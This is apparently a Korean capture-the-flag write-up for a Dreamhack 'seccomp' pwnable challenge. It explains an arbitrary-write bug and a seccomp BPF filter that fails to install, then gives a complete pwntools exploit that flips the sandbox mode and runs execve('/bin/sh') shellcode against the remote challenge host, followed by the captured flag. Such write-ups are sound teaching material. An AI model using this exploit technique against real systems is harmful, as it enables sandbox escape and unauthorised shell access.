



# S3 · seccomp

### 1. 문제 확인

`pwnable` 분류의 S3 문제. 메뉴에서 쉘코드를 입력받아 실행해 준다. 실행 전 `syscall_filter()`로 seccomp를 걸어 `execve`를 막으려 하지만, **필터가 깨져 있어 설치 자체가 안 되고**, 거기에 **임의 주소 쓰기 버그**까지 있어 그 깨진 경로로 유도할 수 있다.

<p align="center">
  
</p>

### 2. 코드

```c
int mode = SECCOMP_MODE_STRICT;   // 기본값 1 (STRICT)

int main() {
    shellcode = mmap(..., PROT_READ|PROT_WRITE|PROT_EXEC, ...);
    while (1) {
        // 1. Read shellcode  2. Execute  3. Write address
        scanf("%d", &idx);
        switch (idx) {
        case 1:
            if (cnt != 0) exit(0);     // 딱 한 번만
            syscall_filter();          // 여기서 seccomp 설치 시도
            read(0, shellcode, 1024);
            cnt++;
            break;
        case 2:
            ((void(*)())shellcode)();  // 쉘코드 실행
            break;
        case 3:
            scanf("%ld", &addr);
            scanf("%ld", addr);        // ★ *addr = value  (임의 쓰기)
            break;
        }
    }
}
```

```c
void syscall_filter() {
    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr),        // A = arch
        BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), // X86_64면 KILL 건너뜀
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),      // arch 틀리면 KILL
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr),     // A = syscall 번호
        // ★ 여기서 끝 - RET이 없음
    };
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    prctl(PR_SET_SECCOMP, mode, &prog);                 // mode 값에 따라 동작이 갈림
}
```

### 3. 버그 두 개

**(1) case 3 — 임의 주소 쓰기**

```c
scanf("%ld", &addr);   // addr 입력
scanf("%ld", addr);    // value를 &value가 아니라 addr에 씀 -> *addr = value
```

두 번째 `scanf`가 `&value`가 아니라 `addr`에 쓴다. 즉 **원하는 주소에 원하는 8바이트를 쓰는 임의 쓰기**다.

**(2) syscall_filter — 깨진 BPF 필터**

BPF 프로그램은 arch를 확인하고 syscall 번호를 로드한 뒤 **아무 판정 없이 끝난다**. 이게 왜 문제인지는 다음 절에서 본다.

### 4. 필터가 왜 동작하지 않는가

seccomp(FILTER 모드)에 올리는 cBPF 프로그램은 **모든 실행 경로가 반드시 `BPF_RET`(판정값 반환)으로 끝나야** 한다. 여기서 `RET`은 함수의 리턴 주소가 아니라, 필터가 커널에 돌려주는 **판정 명령**(`SECCOMP_RET_ALLOW` / `SECCOMP_RET_KILL` 등)이다.

그런데 이 필터의 마지막 명령은 `BPF_LD`(syscall 번호 로드)다. 번호만 읽고 판정을 안 내린 채 끝난다. 그래서:

- 커널은 필터를 **설치할 때 딱 한 번** 유효성을 검사한다(syscall마다가 아니다).
- 검사기는 "판정 없이 끝나는 프로그램"을 유효하지 않다고 보고 **설치를 거부**한다 → `prctl(PR_SET_SECCOMP, ...)`가 `-1` 반환.
- `main()`은 이 실패를 확인하지 않고 그냥 다음으로 넘어간다.

즉 깨진 필터는 **런타임에 뚫리는 게 아니라, 설치 단계에서 거부당해 아예 존재하지 않게** 된다. 필터가 없으면 모든 syscall이 통과한다.

### 5. mode 값이 열쇠다

`prctl(PR_SET_SECCOMP, mode, &prog)`의 두 번째 인자 `mode`가 동작을 가른다.

| mode | 의미 | 결과 |
|---|---|---|
| 1 = STRICT | 커널 내장 샌드박스 | `read`/`write`/`exit`/`sigreturn`만 허용 → **execve 막힘** |
| 2 = FILTER | `&prog`(우리 BPF) 사용 | BPF가 깨져서 **설치 실패 → 제한 없음** |

기본값이 `int mode = SECCOMP_MODE_STRICT`(1)이다. 그냥 두면 STRICT 샌드박스가 제대로 걸려 `execve` 쉘코드가 죽는다. 반대로 `mode`를 **2(FILTER)**로 바꾸면 깨진 BPF를 쓰게 되어 설치가 실패하고, 결국 **아무 제한도 없는 상태**가 된다.

### 6. 취약한 이유

깨진 필터 하나만으로는 취약점이 아니다. STRICT가 기본이라, 그 깨진 필터 경로로 **갈 방법이 없으면** 멀쩡한 샌드박스가 걸려 있을 뿐이다.

진짜 열쇠는 **case 3의 임의 쓰기**다. 이걸로 전역 `mode`를 STRICT(1) → FILTER(2)로 덮어, 일부러 깨진 필터 경로로 유도한다. 두 버그가 합쳐져야 뚫린다:

- 임의 쓰기 → `mode = 2`로 변경 (FILTER 모드로 전환)
- 깨진 BPF → FILTER 모드에서 설치 실패 → 샌드박스 소멸
- → `execve("/bin/sh")` 쉘코드로 셸

### 7. 익스플로잇

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"

p = remote("host3.dreamhack.games", 11988)
elf = ELF("./seccomp", checksec=False)

def write_address(addr, value):      # case 3: *addr = value
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"addr: ", str(addr).encode())
    p.sendlineafter(b"value: ", str(value).encode())

def read_shellcode(shellcode):       # case 1: syscall_filter() 후 read
    p.sendlineafter(b"> ", b"1")
    p.sendafter(b"shellcode: ", shellcode)

def execute_shellcode():             # case 2
    p.sendlineafter(b"> ", b"2")

write_address(elf.symbols["mode"], 2)   # (1) mode: STRICT -> FILTER
read_shellcode(asm(shellcraft.sh()))    # (2) execve("/bin/sh")
execute_shellcode()                     # (3) 실행

p.interactive()
```

**순서가 고정인 이유**: `syscall_filter()`는 case 1 안에서 호출된다. 그러니 **case 1 전에** `mode`를 2로 덮어야 깨진 필터가 설치 실패한 상태가 된다. case 1보다 먼저 안 바꾸면 STRICT가 걸려 execve가 죽는다. 게다가 case 1은 `cnt` 때문에 한 번만 되므로, `mode 덮기 → 쉘코드 읽기 → 실행` 순서를 지켜야 한다.

### 8. 실행 결과

<p align="center">
  
</p>

```text
DH{22b3695a64092efd8845efe7eda784a4}
```
